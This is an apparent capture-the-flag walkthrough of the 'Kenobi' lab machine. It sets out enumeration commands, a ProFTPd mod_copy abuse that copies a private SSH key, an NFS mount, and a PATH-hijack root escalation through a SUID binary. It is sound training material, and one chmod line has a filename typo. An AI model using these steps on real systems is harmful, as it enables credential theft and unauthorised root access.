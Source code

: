 # Kenobi Walkthrough

> Nashia Holloway | April 30th, 2020

## Task 1 Deploy the Vulnerable Machine

**2. Scan the machine with nmap, how many ports are open?**

```
nmap -sC -sV -A $IP -oN initial.nmap
```

![](initial.png)

## Task 2 Enumerating Samba for Shares

**1. How many shares have been found?**

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP -oN shares.nmap
```

There are 3 shares. IPC$ and print$ are normal to see, however there is also an anonymous share.

![](shares.png)

**2. Connect to the share and list the files. What file is seen?**

```
smbclient //$IP/anonymous
```

Once connected, use the command `dir` to list the contents of the directory to find the file `log.txt`.

**3. What port is FTP running on?**

FTP usually runs on port 21, and we can see from the initial nmap scan that that port is open.

**4. What mount can we see?**

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP -oN nfs.nmap
```

`/var` is the mount seen.

## Task 3 Gain Initial Access with ProFtpd

**1. Use netcat to connect to the FTP port. What is the version of ProFtpd?**

```
nc $IP 21
```

`1.3.5` is the version of ProFtpd.

**2. How many exploits for ProFtpd are there?**

```
searchsploit ProFtpd 1.3.5
```
There are 3 exploits.

![](proftpd_exploits.png)

The mod\_copy module exploit can be used to copy files/directories from one place to the other on the server. Any authenticated client can use this functionality.

**4. Copy Kenobi's private SSH key using SITE CPFR and SITE CPTO commands**

```
nc $IP 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

**5. Mount the /var/tmp directory to our machine**

```
mkdir /mnt/kenobiNFS
mount $IP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

Once mounted, copy Kenobi's SSH key to our working directory and SSH into the box.

```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 is_rsa
ssh -i id_rsa kenobi@$IP
```

Cat `user.txt` to grab the flag.

## Task 4 Privilege Escalation with Path Variable Manipulation

**1. Look for SUID bits. Which one looks out of the ordinary?**

```
find / -perm -u=s -type f 2>/dev/null
```

`/usr/bin/menu` doesn't look normal. Running it, 3 options appear.

![](usr_bin_menu.png)

Running `strings` on menu shows the commands used aren't running with their full path. Since the file runs as root, we can change our PATH to get a shell.

**3. Manipulate PATH to get a shell.**

```
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

Enter `1` to get a shell as root. The flag is in the /root directory.
